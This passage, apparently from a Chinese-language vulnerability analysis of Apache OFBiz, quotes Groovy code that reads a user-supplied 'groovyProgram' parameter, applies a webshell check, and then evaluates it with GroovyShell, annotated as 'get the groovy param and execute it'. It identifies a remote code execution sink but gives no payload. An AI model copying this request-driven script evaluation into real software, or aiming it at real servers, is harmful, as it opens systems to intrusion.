EntityFindOptions findOptions = new EntityFindOptions()
findOptions.setMaxRows(3)

List products = delegator.findList("Product", null, null, null, findOptions, false)
if (products != null) {
    recordValues.addAll(products)
}


'''
    parameters.groovyProgram = groovyProgram
} else {
    groovyProgram = parameters.groovyProgram
}

// Add imports for script.
def importCustomizer = new ImportCustomizer()
importCustomizer.addImport("org.apache.ofbiz.entity.GenericValue")
importCustomizer.addImport("org.apache.ofbiz.entity.model.ModelEntity")
def configuration = new CompilerConfiguration()
configuration.addCompilationCustomizers(importCustomizer)

Binding binding = new Binding()
binding.setVariable("delegator", delegator)
binding.setVariable("recordValues", recordValues)

ClassLoader loader = Thread.currentThread().getContextClassLoader()
def shell = new GroovyShell(loader, binding, configuration)

if (UtilValidate.isNotEmpty(groovyProgram)) {
    try {
        // Check if a webshell is not uploaded but allow "import"
        if (!SecuredUpload.isValidText(groovyProgram, ["import"])) {
            logError("================== Not executed for security reason ==================")
            request.setAttribute("_ERROR_MESSAGE_", "Not executed for security reason")
            return
        }
        shell.parse(groovyProgram)
        shell.evaluate(groovyProgram)
```

  
获取groovyparam然后执行。  

